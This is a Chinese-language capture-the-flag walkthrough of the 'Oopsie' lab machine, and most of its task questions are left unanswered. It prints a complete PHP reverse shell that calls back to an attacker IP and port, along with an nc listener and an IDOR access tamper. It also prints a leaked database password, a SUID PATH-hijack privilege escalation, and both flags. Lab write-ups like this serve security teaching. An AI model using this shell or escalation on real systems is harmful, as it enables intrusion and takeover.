

<center>Oopsie</center>


[toc]


## Oopsie

> Oopsie


### 1. task

1. With what kind of tool can intercept web traffic?

```shell
proxy
```

2. What is the path to the directory on the webserver that returns a login page?

```shell
```

3. What can be modified in Firefox to get access to the upload page?

```shell
```

4. What is the access ID of the admin user?

```shell
```

5. On uploading a file, what directory does that file appear in on the server?

```shell
```

6. What is the file that contains the password that is shared with the robert user?

```shell
```

7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

```shell
```

8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

```shell
```

9. What SUID stands for?

```shell
```

10. What is the name of the executable being called in an insecure manner?

```shell
```


### 3.flag

> 获取flag

```shell
export 10.129.172.90

# 信息收集
nmap -sC -sV $ip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



> 存在登陆页面。浏览器发现


```shell
http://10.129.172.90/cdn-cgi/login/
```

>  可以尝试暴力破解。`Guest`用户登陆


> admin 才可以上传


> 漏洞探测：
>
>  **Account页面发现URL中存在参数 `content=accounts&id=2`**


> 看图发现端倪。
>
> 改为admin权限。


> 上传`反弹shell`

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.35';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;


if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}


stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}


	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);


	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}


	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}


	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);


function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

> **爆破上传脚本文件的保存地址，发现/uploads目录，猜测文件上传路径可能为：`/uploads/shell.php`**

```shell
gobuster dir -u http://10.129.172.90 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php
```


```shell
# 开启nc
nc -lnvp 4444

# 访问木马
http://10.129.172.90/uploads/shell.php

# 交互shell
python3 -c 'import pty;pty.spawn("/bin/bash")'


# 进入网站目录，获取数据库密码
cd /var/www/html/cdn-cgi/login
cat db.php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

> **尝试使用 `robert：M3g4C0rpUs3r!` 登录，成功登录。**

```shell
# user flag
su robert

cd ~

cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```


> 提权。（SUID提权）

```shell
# 当前用户可以用 sudo 执行那些命令
sudo -l
# 显示真实有效的用户ID(UID)和组ID(GID)
id
```

> **robert没有具有sudo权限的可执行命令或文件，检查bugtracker是否有可执行权限或是否具有可执行权限的文件**


```shell
find / -group bugtracker 2>/dev/null

# 查看bugtracker文件权限及文件类型
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker 
```


>  SUID (Set UID)是Linux中的一种特殊权限，其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件，对于非可执行文件设置SUID没有任何意义。
>    在执行过程中，调用者会暂时获得该文件的所有者权限，且该权限只在程序执行的过程中有效。通俗的来讲，假设我们现在有一个可执行文件ls，其属主为root，当我们通过非root用户登录时，如果ls设置了SUID权限，我们可在非root用户下运行该二进制可执行文件，在执行文件时，该进程的权限将为root权限。
>    利用此特性,我们可通过SUID进行提权


> **bugtracker 工具使用 cat 命令读取文件
>    \**在tmp目录下创建cat文件，文件内容为`/bin/sh`，并添加可执行权限\****

```shell
cd /tmp

echo "/bin/sh" > cat

chmod +x cat

# 添加环境变量
export PATH=/tmp:$PATH
echo $PATH

#  在/tmp目录下执行bugtracker即可获取到root权限
/usr/bin/bugtracker
```


```shell
# flag
python3 -c 'import pty;pty.spawn("/bin/bash")'

# 不能使用cat cat已经被我们改了
less root.txt
WARNING: terminal is not fully functional
root.txt  (press RETURN)
af13b0bee69f8a877c3faf667f7beacf
```

